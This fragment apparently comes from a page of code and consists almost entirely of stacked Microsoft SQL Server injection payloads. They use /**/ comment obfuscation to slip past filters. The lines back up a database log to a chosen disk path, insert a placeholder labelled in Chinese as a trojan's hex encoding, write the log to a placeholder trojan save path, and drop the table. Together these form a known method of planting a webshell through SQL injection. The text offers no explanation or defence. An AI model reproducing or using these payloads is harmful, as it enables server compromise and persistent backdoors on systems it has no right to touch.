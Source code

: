 	;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/log/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
	;insert/**/into/**/[itpro]([a])/**/values(木马hex编码)—
	;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=木马保存路径的SQL_EN编码/**/backup/**/log/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
	;drop/**/table/**/[itpro]—
	;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/log/**/[testdb]/**/to/**/disk=@d/**/with/**/init--